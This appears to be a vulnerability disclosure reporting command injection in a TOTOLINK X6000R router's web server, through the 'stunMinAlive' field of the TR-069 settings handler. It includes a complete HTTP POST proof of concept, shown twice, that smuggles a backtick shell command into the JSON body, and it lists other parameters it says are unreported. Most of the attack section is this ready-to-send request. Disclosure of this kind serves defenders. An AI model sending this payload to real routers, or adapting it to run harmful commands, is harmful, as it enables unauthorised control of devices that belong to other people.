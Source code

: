 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is parameter **`stunMinAlive`** of `sub_4119A0` function in `/usr/sbin/shttpd` binary file.

**Notice**:
I checked **all the currently disclosed CVEs** and found that the affected parameters in the currently exposed sub_4119A0 are:
- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr

However, parameters
- [ ] **port**
- [ ] **stunPort**
- [ ] **stunMaxAlive**
- [ ] **stunMinAlive**

are ignored.

# Details
Funtion `sub_4119A0` get `stunMinAlive` from user's input and use `Uci_Set_Str`, which leads to command execution:
![image](https://github.com/user-attachments/assets/c2c9f0be-dd97-4b7a-b9f8-cd66873d2d54)

`Uci_Set_Str`:
![image](https://github.com/user-attachments/assets/fec24bc9-d13a-4c0f-bcd0-57a605e68383)

`CsteSystem`:
![image](https://github.com/user-attachments/assets/c55d454e-996d-451d-b21a-837127736d69)

The corresponding front-end web interface is here:
![image](https://github.com/user-attachments/assets/12ba6593-3d59-4390-ad1b-fbf1e3d9d2a6)

Use burpsuite to intercept the packet, and modify the value of `stunMinAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/73f25633-0eea-4bf6-85e3-f4fd5da978d3)

![image](https://github.com/user-attachments/assets/6eabbb8f-7646-498c-8ab3-8eaf2c8d9133)


# PoC
Login first,
Use burpsuite to intercept the packet, and modify the value of `stunMinAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/73f25633-0eea-4bf6-85e3-f4fd5da978d3)

![image](https://github.com/user-attachments/assets/6eabbb8f-7646-498c-8ab3-8eaf2c8d9133)
